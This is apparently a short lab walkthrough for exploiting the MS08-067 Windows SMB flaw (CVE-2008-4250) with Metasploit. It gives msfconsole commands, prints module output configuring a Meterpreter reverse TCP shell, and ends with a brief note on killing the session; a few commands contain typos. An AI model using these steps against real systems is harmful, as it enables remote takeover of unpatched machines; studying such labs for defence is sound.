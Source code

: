 Attack:

1, Search CVE2008-4250 on CVE Details and found there's 1 Metasploit modules avaliable that called "exploit/windows/smb/ms08_067_netapi"
 
2, Start msf by typing "msfconsole" on CLI or Just start Metasploit Framework via GUI 

P.S If you do not know the model name you can try to search model in msfconsole by typing "search ms08-067"

3, Use the model in msfconsole by typing "use exploit/windows/smb/ms08_067_netapi"

4, Type "shop options" to show all the requirement for this Scripts? 

Output: 

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   
   ----     ---------------  --------  -----------
   
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   
   RPORT    445              yes       The SMB service port (TCP)
   
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   
   ----      ---------------  --------  -----------
   
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   
   LHOST     192.168.123.50   yes       The listen address (an interface may be specified)
   
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   
   --  ----
   
   0   Automatic Targeting
   
   As you can see we need RHOST(Remote Host), So we need to specified Remote Host by Typing "set RHOST {Target IP}"
   
   5, Type "show payloads" to show all compatible payloads, and type "set payload {payload location} if needed.
   
   6, Now we got all the info ready, Just Type run or exploit to start
   
   Defense:
   
   1, Type "netstat -o" to find net task PID.
   
   2,Type "killtask /F /PID {PID} to kill the process
   
   3,msf console should show up "192.168.123.46 - Meterpreter session 1 closed.  Reason: Died" after you kill the process




